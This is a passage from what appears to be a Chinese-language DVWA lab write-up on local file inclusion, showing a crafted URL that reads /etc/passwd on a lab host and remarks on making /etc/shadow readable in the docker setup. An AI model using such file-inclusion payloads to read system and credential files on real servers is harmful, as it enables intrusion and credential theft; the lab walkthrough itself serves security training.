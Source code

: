 1.本地文件包含

构造url

`http://192.168.124.131/vulnerabilities/fi/?page=/etc/passwd`

![](DVWA.assets/dvwa-low-7.png)

成功读取/etc/passwd文件

由于环境是在docker中，shadow是 rw-r-----，当前不是root用户，所以修改权限 644 就可以读取shadow文件

![](DVWA.assets/dvwa-low-8.png)
